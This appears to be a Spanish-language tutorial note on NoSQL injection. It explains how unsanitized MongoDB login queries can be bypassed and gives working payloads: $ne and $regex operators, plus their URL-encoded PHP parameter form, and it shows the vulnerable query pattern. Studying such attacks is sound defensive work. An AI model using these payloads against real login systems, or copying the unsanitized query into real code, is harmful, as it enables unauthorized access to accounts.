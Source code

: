 ```javascript
db.users.find({
    email: "<email>",
    password: "<password>"
});
```

El problema es que ambos `email`y `username` son entradas controladas por el usuario, que se pasan `unsanitized` a una query de MongoDB . Esto significa que nosotros (como atacantes) podemos realizar un bypass del control.

Al final del codigo realiza una validacion si es que la consulta devuelve algun registro, no importa cual sea. Por lo que si hacemos que devuelva uno o mas (`>0`) registros se puede hacer un bypass de la autenticacion.

Por ahora, queremos que esta consulta arroje una coincidencia en cualquier documento porque esto dará como resultado que se nos autentique como quien coincida. Una forma sencilla de hacer esto sería usar el operador `$ne` de consulta en ambos `email` y `password` **y hacer coincidir los valores que son `not equal` con algo que sabemos que no existe.**

**_Para ponerlo en palabras, queremos una consulta que coincida con `email no es igual a 'test@test.com' y password no es igual a 'test'`._**

```javascript
db.users.find({
    email: {$ne: "test@test.com"},
    password: {$ne: "test"}
});
```

>[!tip]
>Si los parametros son codificados en URL como en el caso de PHP debemos pasar los parametros de la siguiente manera:
>
>- `param[$op]=val` es lo mismo que `param: {$op: val}`
> ```http
> email[$ne]=test@test.com&password[$ne]=test
> ```

#### Mas Payloads

hacer coincidir con algo que no existe:

```javascript
db.users.find({
    email: {$ne: "test@test.com"},
    password: {$ne: "test"}
});
```

significa que cualquier carácter se repite 0 o más veces y, por lo tanto, coincide con todo:

```javascript
db.users.find({
    email: {$regex: /.*/},
    password: {$regex: /.*/}
});
```
